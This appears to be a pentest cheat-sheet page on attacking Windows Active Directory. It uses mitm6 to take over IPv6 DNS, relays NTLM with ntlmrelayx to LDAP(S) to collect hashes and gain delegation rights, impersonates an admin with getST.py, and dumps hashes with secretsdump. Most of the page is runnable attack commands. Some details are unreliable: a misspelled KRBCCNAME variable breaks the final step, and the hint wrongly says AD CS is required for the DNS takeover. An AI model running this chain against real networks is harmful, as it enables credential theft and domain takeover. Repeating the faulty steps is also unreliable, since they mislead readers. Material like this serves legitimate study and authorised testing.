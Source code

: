 # DNS Takeover / LDAP Relay

## IPv6 DNS Takeover

ipv6 is setup by default on all windows machines in a network even if the network doesnt utilize v6 so no one is doing dns resolotion for v6 .an attacker can setup a fake dns server and resolve all ipv6 requests in a network and forward them to the DC so we can sniff the authentication and hashs on the way with a tool like MitM6.

{% hint style="info" %}
For DNS takeover to work, the AD CS role must be installed and configured on the domain controller.
{% endhint %}

we run mitm6 on the domain use -i to specify the interface.

```text
python mitm6.py -i vboxnet0 -d megacorp.local
```

 leave the terminal open, for now we are playing the role of an IPv6 DNS server in the network.

## LDAP Relay

we use ntlmrelayx.py script from impacket tools to relay the credentials when a client requests for IPv6 resources.

```text
ntlmrelayx.py -6  -t ldaps://[DC address] -wh fakewpad.megacorp.local -l lootme
```

**lootme :** the directory to save the hashes

#### we could use ldap instead of ldaps for LDAP without a certification but most domains use this feature. ipv6 is going to ask for dns every 30 minutes or after restarting the machine.

#### ntlmrelayx.py might not show the success message in the terminal just check the lootme directory.

![](../../../.gitbook/assets/image%20%28210%29.png)

![](../../../.gitbook/assets/image%20%28207%29.png)

#### we can open up the results with firefox

## NTLM Relay + Kerberos Delegation

similarly we can use these commands to target WPAD and grab NTLM hashes:

```text
# take over DNS with mitm6
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqdn


# receive connection, create a computer and grant delegation rights
impacket-ntlmrelayx -t ldaps://192.168.56.115 -wh attacker-wpad --delegate-access


# use impacket getST.py to obtain kerberos ticket
getST.py -spn cifs/icorp-w10.internal.corp internal.corp/RDPOF\$ -impersonate admin


# now with this ticket you can do whatever you want
# for example dumping hashes
export KRBCCNAME=admin.ccache
secretsdump.py -k -no-pass icorp-w10.internal.corp
```







